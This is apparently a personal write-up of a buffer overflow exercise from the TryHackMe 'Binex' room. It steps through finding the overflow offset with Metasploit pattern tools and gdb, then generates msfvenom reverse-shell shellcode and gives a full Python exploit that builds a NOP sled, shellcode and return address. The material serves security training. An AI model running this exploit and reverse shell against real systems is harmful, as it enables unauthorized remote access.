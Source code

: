 # Buffer Overflow theory

Based on experiences from TryHackMe room https://tryhackme.com/room/binex, I need to get better at this, so here is a mini writeup for that portion of the room.

Instructions below are based on a executable that reads a string then overflows, named `bof`. The methodology here is largely extracted from one of the writeups for Binex: https://github.com/Syp1ng/Writeups/blob/master/THM/Binex.pdf

1. First, generate a test string using metasploit's pattern_create.rb: 
  
    You can find the location of the script using `find / -name pattern_create.rb`. Here are two locations I've seen:

    - `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 1000`
    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000`
  
2. Open the exe with gdb. E.g. `gdb ./bof`. Breakpoints are not necessary, but as a quick primer if you do want them:

    - `info functions` shows all functions
    - `disas <function>` renders the assembly for a function, including the mem addresses and their offsets
    - `b * <function name>+<offset>` sets a breakpoint. E.g. `b * foo+39` will set a breakpoint in the function foo at offset 39
    - to run the code up to a break point (or just generally) use `r`. You can also pipe data into `r` if you like, or pass args to it.

3. Run til it asks for data, then paste in the test string. It should run and segfault after this.

4. Use `info registers` to see the register contents. Hopefully you should see something like this:

      ```
      (gdb) info registers
      rax            0x0      0
      rbx            0x3e9    1001
      rcx            0x0      0
      rdx            0x0      0
      rsi            0x555555554956   93824992233814
      rdi            0x7ffff7dd0760   140737351845728
      rbp            0x4134754133754132       0x4134754133754132
      rsp            0x7fffffffe228   0x7fffffffe228
      r8             0xffffffffffffffed       -19
      r9             0x25e    606
      r10            0x5555557564cb   93824994337995
      r11            0x555555554956   93824992233814
      r12            0x3e9    1001
      r13            0x7fffffffe320   140737488347936
      ```

      That value for rbp is what is needed: `4134754133754132` Take this, and run it against another metasploit script: pattern_offset. It should be just next to pattern_create:

      ```
      root@ip-10-10-167-14:~# /opt/metasploit-framework-5101/tools/exploit/pattern_offset.rb -q 4134754133754132
      [*] Exact match at offset 608
      ```
    
5. Before leaving gdb, also take a look at the stack via `x/100x $rsp-700`. Should see something like this:

    ```
    (gdb) x/100x $rsp-700
    0x7fffffffdf6c: 0x00007fff      0x00000012      0x00000000      0xf7dd0760
    0x7fffffffdf7c: 0x00007fff      0x55554934      0x00005555      0xf7a64b62
    0x7fffffffdf8c: 0x00007fff      0xf79e90e8      0x00007fff      0x000003e9
    0x7fffffffdf9c: 0x00000000      0xffffe220      0x00007fff      0x000003e9
    0x7fffffffdfac: 0x00000000      0xffffe320      0x00007fff      0x55554848
    0x7fffffffdfbc: 0x00005555      0x41306141      0x61413161      0x33614132
    0x7fffffffdfcc: 0x41346141      0x61413561      0x37614136      0x41386141
    0x7fffffffdfdc: 0x62413961      0x31624130      0x41326241      0x62413362
    0x7fffffffdfec: 0x35624134      0x41366241      0x62413762      0x39624138
    0x7fffffffdffc: 0x41306341      0x63413163      0x33634132      0x41346341
    0x7fffffffe00c: 0x63413563      0x37634136      0x41386341      0x64413963
    0x7fffffffe01c: 0x31644130      0x41326441      0x64413364      0x35644134
    0x7fffffffe02c: 0x41366441      0x64413764      0x39644138      0x41306541
    0x7fffffffe03c: 0x65413165      0x33654132      0x41346541      0x65413565
    0x7fffffffe04c: 0x37654136      0x41386541      0x66413965      0x31664130
    0x7fffffffe05c: 0x41326641      0x66413366      0x35664134      0x41366641
    0x7fffffffe06c: 0x66413766      0x39664138      0x41306741      0x67413167
    0x7fffffffe07c: 0x33674132      0x41346741      0x67413567      0x37674136
    0x7fffffffe08c: 0x41386741      0x68413967      0x31684130      0x41326841
    0x7fffffffe09c: 0x68413368      0x35684134      0x41366841      0x68413768
    0x7fffffffe0ac: 0x39684138      0x41306941      0x69413169      0x33694132
    0x7fffffffe0bc: 0x41346941      0x69413569      0x37694136      0x41386941
    0x7fffffffe0cc: 0x6a413969      0x316a4130      0x41326a41      0x6a41336a
    0x7fffffffe0dc: 0x356a4134      0x41366a41      0x6a41376a      0x396a4138
    0x7fffffffe0ec: 0x41306b41      0x6b41316b      0x336b4132      0x41346b41
    ```

    Here you can see the test string starting near the top. Pick one of those side addresses further down - this address might work or not, you might need to do some trial and error so keep this output handy. E.g. from the above I tried two, the first failing, before `0x7fffffffe07c` worked for me.
    
6. Get some shell code. One way to make this, which works when you have a lot of space (in binex I had around 1000 bytes, but thats rare) is to use msfvenom. Here I created a reverse shell caller: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.167.14 LPORT=4444 -b '\x00' -f python`. This prints out some python code:

    ```
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    Found 4 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
    Attempting to encode payload with 1 iterations of x64/xor
    x64/xor succeeded with size 119 (iteration=0)
    x64/xor chosen with final size 119
    Payload size: 119 bytes
    Final size of python file: 597 bytes
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
    buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"
    ```

7. Compile an exploit string. I created a python file I could invoke against the binary to exploit:

    ```python
    from struct import pack

    nop = '\x90'

    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
    buf += b"\xef\xff\xff\xff\x48\xbb\xda\x1d\x37\xc7\xb5\x95\x34"
    buf += b"\x41\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
    buf += b"\xb0\x34\x6f\x5e\xdf\x97\x6b\x2b\xdb\x43\x38\xc2\xfd"
    buf += b"\x02\x7c\xf8\xd8\x1d\x26\x9b\xbf\x9f\x93\x4f\x8b\x55"
    buf += b"\xbe\x21\xdf\x85\x6e\x2b\xf0\x45\x38\xc2\xdf\x96\x6a"
    buf += b"\x09\x25\xd3\x5d\xe6\xed\x9a\x31\x34\x2c\x77\x0c\x9f"
    buf += b"\x2c\xdd\x8f\x6e\xb8\x74\x59\xe8\xc6\xfd\x34\x12\x92"
    buf += b"\x94\xd0\x95\xe2\xdd\xbd\xa7\xd5\x18\x37\xc7\xb5\x95"
    buf += b"\x34\x41"

    calculated_offset = 608
    rip = 0x7fffffffe07c
    payload_len = calculated_offset + 8
    nop_payload = 300*nop
    shell_len = len(buf)
    nop_len = len(nop_payload)
    padding = 'A'*(payload_len - shell_len - nop_len)
    payload = nop_payload + buf + padding + pack("<Q", rip)

    print(payload)
    ```

10. Finally, all this in hand (and after setting up the shell listener!), run against the binary to exploit: `./bof < <(python exploit.py)`
